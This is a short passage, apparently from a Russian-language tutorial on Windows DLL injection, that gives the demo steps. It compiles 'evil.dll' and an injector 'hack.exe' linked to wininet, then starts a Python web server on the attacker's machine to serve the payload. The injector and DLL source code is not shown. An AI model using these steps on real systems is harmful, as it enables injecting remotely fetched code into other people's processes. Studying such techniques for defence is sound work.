 Итак, после того как мы разобрали весь код инъектора, можем его протестировать.    

### Демо

Сначала компилируем DLL:   

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![injection](./images/50/2022-04-15_16-39.png){width="80%"}    

Затем компилируем инъектор:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-lwininet -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![injection](./images/50/2022-04-15_16-42.png){width="80%"}    

Подготавливаем простой веб-сервер на машине атакующего:    

```bash
python3 -m http.server 4444
```
